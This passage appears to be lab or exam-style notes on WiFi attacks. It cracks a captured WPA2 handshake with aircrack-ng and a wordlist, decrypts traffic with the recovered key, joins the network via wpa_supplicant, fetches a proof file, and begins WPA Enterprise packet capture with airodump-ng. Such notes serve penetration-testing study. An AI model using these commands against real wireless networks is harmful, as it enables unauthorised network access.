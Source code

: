 ```
sudo aircrack-ng -w /usr/share/john/password.lst psk-01.cap
```

Generates a decrypted file!
## Verify Key

Using airdecap:

```
airdecap-ng -e wifi-mobile -p starwars1 psk-01.cap
```

## Connect to Network

Do not forget to check the variables like proto and ssid:
```
sudo airmon-ng stop wlan0mon

nano wpa.cong
network={
    ssid="wifi-mobile"
    psk="starwars1"
    scan_ssid=1
    key_mgmt=WPA-PSK
    proto=WPA2
}

sudo wpa_supplicant -i wlan0 -c wpa.conf

sudo dhclient wlan0 -v
```

Proof.txt
```
curl http://<ip>/proof.txt
```


# WPA Enterprise

## Setup Interface

```
sudo airmon-ng check kill && sudo airmon-ng start wlan0
```


## Capture packets with the `WPA Enterprise` network info

```
sudo airodump-ng --band abg --manufacturer --wps wlan0mon
```
